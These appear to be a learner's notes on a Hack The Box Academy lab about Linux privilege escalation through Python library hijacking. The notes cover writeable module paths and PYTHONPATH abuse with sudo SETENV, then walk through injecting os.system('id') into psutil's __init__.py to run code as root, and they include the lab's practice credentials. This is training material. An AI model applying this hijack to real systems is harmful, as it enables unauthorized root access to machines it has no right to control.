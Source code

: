 Python libraries can be hijacked via the following ways:
- wrong write permissions. i.e., the SUID bit is set for a file or other resource
- library path
- PYTHONPATH environment variable

### Library Path Listing

The order in which Python imports `modules` from are based on a priority system, meaning that paths higher on the list take priority over ones lower on the list. Executing the below command will show the order of modules imported by Python:

```shell-session
python3 -c 'import sys; print("\n".join(sys.path))'
```
```shell-session
/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

> [!NOTE] This method requires two pre-requisites:
>1. ==The module that is imported by the script is located under one of the lower priority paths listed via the PYTHONPATH variable.==
>2. ==We must have write permissions to one of the paths having a higher priority on the list.==

View a programs default install location:
```
pip3 show psutil

...SNIP...
Location: /usr/local/lib/python3.8/dist-packages

```

The above shows that psutil is installed at `/usr/local/lib/python3.8/dist-packages`. See if you have write access to the python3.8 directory. 

```
ls -la /usr/lib/python3.8

total 4916
drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
```

Confirming you do, this satisfies the first criteria of having write permissions to one of the higher priority paths. The `PYTHONPATH` showed the path `/usr/lib/python3.8` is higher on the list than `/usr/local/lib/python3.8/dist-packages` where `psutils` is installed.

```
python3 -c 'import sys; print("\n".join(sys.path))'

shell-session
/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

Solution: Take advantage of this misconfiguration by creating your own `psutils` module containing your own malicious `virtual_memory()` function in the `/usr/lib/python3.8`

> [!NOTE] In a previous example, the mem_status script, that used the virtual_memory() function, was found to be writeable to all users
### PYTHONPATH 

`PYTHONPATH` is an environment variable that indicates what directory (or directories) Python can search for modules to import.

Assume you are allowed to run `/usr/bin/python3` under the trusted permissions of `sudo` and are therefore allowed to set environment variables for use with this binary by the `SETENV`
```shell-session
sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
   (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

Using the `/usr/bin/python3` binary, we can effectively set any environment variables under the context of our running program.

```shell-session
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```

# Questions

IP
```
10.129.205.114
```

USERNAME
```
htb-student
```

PASSWD
```
HTB_@cademy_stdnt!
```

SSH
```
ssh htb-student@10.129.205.114
```

Although it's the same as the examples in the module, proceed as if you have no information.

### Enumeration

**Finding writeable files in the htb-student's home folder**
```
htb-student@ubuntu:~$ find /home/htb-student -type f -perm -04000 -ls 2>/dev/null
3724      4 -rwSrwxr-x   1 root     root          192 May 19  2023 /home/htb-student/mem_status.py
```

The file `mem_status.py` has the SUID bit set. We can also read the contents and execute the script.

Viewing the file, I see it's being called by psutil which is imported. psutil is also calling the `virtual_memory()`
```
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

Find the default location of psutil: ==/usr/local/lib/python3.8/dist-packages==
```
htb-student@ubuntu:~$ pip3 show psutil
Name: psutil
Version: 5.9.5
Summary: Cross-platform lib for process and system monitoring in Python.
Home-page: https://github.com/giampaolo/psutil
Author: Giampaolo Rodola
Author-email: g.rodola@gmail.com
License: BSD-3-Clause
Location: /usr/local/lib/python3.8/dist-packages
Requires: 
Required-by: 
htb-student@ubuntu:~$ 
```

The the __init__.py function appears to be writeable by our user, `htb-student`
```
htb-student@ubuntu:~$ ls -la /usr/local/lib/python3.8/dist-packages/psutil
total 568
drwxr-sr-x 4 root        staff   4096 Jun  7  2023 .
drwxrwsr-x 6 root        staff   4096 Jun  5  2023 ..
-rw-r--r-- 1 root        staff  29181 May 19  2023 _common.py
-rw-r--r-- 1 root        staff  15025 May 19  2023 _compat.py
-rw-r--r-- 1 htb-student staff  87657 Jun  8  2023 __init__.py
-rw-r--r-- 1 root        staff  18665 May 19  2023 _psaix.py
-rw-r--r-- 1 root        staff  31769 May 19  2023 _psbsd.py
-rw-r--r-- 1 root        staff  86913 May 19  2023 _pslinux.py
-rw-r--r-- 1 root        staff  16275 May 19  2023 _psosx.py
-rw-r--r-- 1 root        staff   8245 May 19  2023 _psposix.py
-rw-r--r-- 1 root        staff  25486 May 19  2023 _pssunos.py
-rwxr-xr-x 1 root        staff 107400 May 19  2023 _psutil_linux.abi3.so
-rwxr-xr-x 1 root        staff  71008 May 19  2023 _psutil_posix.abi3.so
-rw-r--r-- 1 root        staff  37425 May 19  2023 _pswindows.py
drwxr-sr-x 2 root        staff   4096 Jun  5  2023 __pycache__
drwxr-sr-x 3 root        staff   4096 Jun  5  2023 tests
htb-student@ubuntu:~$ 
```

The `virtual_memory()` function is found on line 1920. Here you will place the following inside the function:
```
import os
os.system('id')
```

Execute and you will see you are able to execute the function as root:
```
sudo /usr/bin/python3 /home/htb-student/mem_status.py 
uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 88.76%
```



